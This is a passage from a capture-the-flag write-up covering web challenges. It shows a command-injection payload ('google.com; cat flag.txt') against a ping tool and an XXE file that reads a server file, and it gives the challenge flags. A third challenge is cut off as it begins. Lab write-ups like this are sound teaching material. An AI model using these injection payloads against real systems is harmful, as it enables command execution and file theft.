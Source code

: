 </br>
The challenge is a simple web-based ping tool. If you enter `google.com`, in the background, it calls `ping -c 4 google.com` and returns the results. You can exploit this by following up with arbitrary shell commands, for example google.com; ls will execute `ping -c 4 google.com; ls` and subsequently list all the files in the working directory. Enter `google.com; cat flag.txt` to get the flag.

The flag is `nland{5h377s-4r3-3v3rywh3r3}`.

<br>

#### XML is stupid - Easy

*There's a reason why JSON became so popular. The flag is in /opt/next/flag.txt.*

</br>
The challenge is a web-based viewer for a custom XML format. The flag location is provided in the challenge text (`/opt/next/flag.txt`). An example file is also provided.

You need to use XML External Entities to inject the flag into one of the parsed fields. Do inject the contents of `/opt/next/flag.txt` into the `first-name` field, save the following as an `.xml` file and upload it:

```js
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///opt/next/flag.txt"> ]>

<root>
  <first-name>&xxe;</first-name>
  <last-name>Mustermann</last-name>
</root>
```

The flag will be returned in place of the first name.

The flag is `nland{y0u-sh0u7dn7-us3-xm7}`.

<br>

#### Into the Backrooms 1 - Easy

*This challenge has four different parts. The source code is always the same. The parts build on each other and you should work on them in their order.*

*I am currently working on the backend of a new shop system. It is still in development and not finished. Have a look for yourself and try to log into an account.*
<br>

[into_the_backrooms.zip](/files/neuland-ctf-12-2022/into_the_backrooms.zip)

<br>

We are presented with the backend of a shop system. The frontend isn't of much use. There are two QR codes and the message to "Look somewhere else!". We only get rickrolled if we scan the first QR code. 

![](/images/neuland-ctf-12-2022/frontend.png)

As already expected we have to focus on the backend. For this sake I am going to use Postman to send the requests. The task tells us to log into an account. We have to register a new account and log into it.
